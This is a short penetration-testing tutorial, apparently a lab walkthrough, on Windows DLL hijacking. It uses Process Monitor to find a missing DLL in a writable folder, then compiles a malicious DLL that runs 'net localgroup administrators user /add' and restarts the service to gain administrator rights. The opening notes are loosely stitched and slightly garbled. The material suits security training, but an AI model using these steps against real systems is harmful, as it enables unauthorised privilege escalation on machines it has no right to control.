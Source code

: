 ```yaml
---
description: >-
  exploit vulnerabilities in the Dynamic Link Library (DLL) files of an
  application. By manipulating the search order used by the operating system to
  locate DLL files to load malicious one
---
```


# DLL hijacking

Use PowerSploit or process monitor

Add filter NO NAME FOUND and also file type .dll

then&#x20;

```
sc dll start
```

if already running

```
sc dll stop
```

then again start

check the process monitor ,create a malicious script and put it inside the path with file name where it was not found in dll.

. Open the Tools folder that is located on the desktop and then go the Process Monitor folder.\
2\. In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on Procmon.exe and select ‘Run as administrator’ from the menu.\
3\. In procmon, select "filter".  From the left-most drop down menu, select ‘Process Name’.\
4\. In the input box on the same line type: dllhijackservice.exe\
5\. Make sure the line reads “Process Name is dllhijackservice.exe then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.\
6\. Next, select from the left-most drop down menu ‘Result’.\
7\. In the input box on the same line type: NAME NOT FOUND\
8\. Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.\
9\. Open command prompt and type: sc start dllsvc\
10\. Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it could not do that as the file was not found. Note that ‘C:\Temp’ is a writable location.

Exploitation

Windows VM

1\. Copy ‘C:\Users\User\Desktop\Tools\Source\windows\_dll.c’ to the Kali VM.

Kali VM

1\. Open windows\_dll.c in a text editor and replace the command used by the system() function to: `cmd.exe /k net localgroup administrators user /add`\
2\. Exit the text editor and compile the file by typing the following in the command prompt: x86\_64-w64-mingw32-gcc windows\_dll.c -shared -o hijackme.dll\
3\. Copy the generated file hijackme.dll, to the Windows VM.

Windows VM

1\. Place hijackme.dll in ‘C:\Temp’.\
2\. Open command prompt and type: sc stop dllsvc & sc start dllsvc\
3\. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators


